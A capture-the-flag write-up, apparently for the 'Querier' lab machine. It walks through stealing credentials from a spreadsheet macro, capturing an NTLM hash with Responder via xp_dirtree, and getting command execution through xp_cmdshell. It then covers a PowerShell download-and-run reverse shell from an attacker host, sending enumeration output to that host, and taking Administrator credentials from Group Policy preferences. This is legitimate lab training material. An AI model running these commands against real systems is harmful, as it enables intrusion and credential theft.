

# USER

Initially scanning the box with nmap it can be seen that there're a lot of open ports. 

I will begin to enumerate them.

### SMB

```
$ smbclient -L 10.10.10.125

Enter WORKGROUP\main_user's password: 


	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Reports         Disk      
```

Going onto the ```Reports``` share we can retrieve a ```Currency Volume Report.xlsm``` using:

```
smb> get "Currency Volume Report.xlsm"
```

Running ```strings``` on the file shows the presence of embedded workbooks.

This alongside a ```binwalk``` run reveals a vba script bin called ```vbaProject.bin```. 

Running strings on this file reveals the database password used by the script

```
Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6
```

```
reporting
PcwTWTHRwryjc$c6
```

Oppening this file in LibreOffice or Excell can give us the VBA code

```vba
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
```

Using the credentials on the Microsoft SQL Server didn't seem to work but we can access the IPC$ share on SMB using ```impackets``` ```smbclient```

```
$ smbclient.py 10.10.10.125

Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# login reporting
Password:
[*] USER Session Granted
```

Also tried to use the credentials to authenticating to a Microsoft SQL server

```
mssqlclient.py -p 1433 -windows-auth reporting:PcwTWTHRwryjc\$c6@10.10.10.125

Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

Using the sql command line we can ```xp_dirtree``` to try and list a remote SMB share. If we set up a poisoned SMB share we can steal the NTLM hash of the authenticating user

Running the responder

```
responder -I tun1
```

This gives us:

```
[SMBv2] NTLMv2-SSP Client   : 10.10.10.125
[SMBv2] NTLMv2-SSP Username : QUERIER\mssql-svc
[SMBv2] NTLMv2-SSP Hash     : mssql-svc::QUERIER:9fb7c0c79bc8d9c8:51F9D710BCA10D82F3411DEB0331AE52:0101000000000000C0653150DE09D2011DB505896BAA873B000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D2010600040002000000080030003000000000000000000000000030000087715458EEC5BDDB3A8004CC952FF25ABEB68555FFC4A10051656BA6EC90AD6F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0035003500000000000000000000000000
```

And cracking it using ```rockyou.txt``` gives us:

```
mssql-svc
corporate568
```

Using these creds can log us into the mssql shell with RCE permissions

```
mssqlclient.py -p 1433 -windows-auth mssql-svc:corporate568@10.10.10.125
```

Reverse shell time!

```
xp_cmdshell powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.55:8000/shell.ps1\")
```

With:
```
python2 -m SimpleHTTPServer
```


Gives us a reverse shell as user ```querier\mssql-svc```. On the Desktop of this user is the ```user.txt```!

### Exploit
```
mssqlclient.py -p 1433 -windows-auth mssql-svc:corporate568@10.10.10.125
enable_xp_cmdshell
xp_cmdshell powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.55:8000/shell.ps1\")
```

# ROOT

Start by running JAWs

```
powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.14.55:8000/jaws-enum.ps1', 'C:\tmp\file.ps1')

powershell.exe -ExecutionPolicy Bypass -File C:\tmp\file.ps1 -OutputFilename C:\tmp\JAWS-Enum.txt
```

And the result can be uploaded using:

```
powershell Invoke-WebRequest -Uri http://10.10.14.55:8000 -Method Post -Infile C:\tmp\JAWS-Enum.txt 
```

JAWS provided not much so we'll run another script called `PowerUp`.

```
$ powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.55:8000/PowerUp.ps1'); Invoke-AllChecks"
```

When Running PowerUp! we get some cached credentials:

```
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\GroupPolicy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```

Credentials:
```
Administrator
MyUnclesAreMarioAndLuigi!!1!
```

These can be used to log into the SMB share as the Administrator and attach onto the `C$`. This lets us grab the `root.txt`!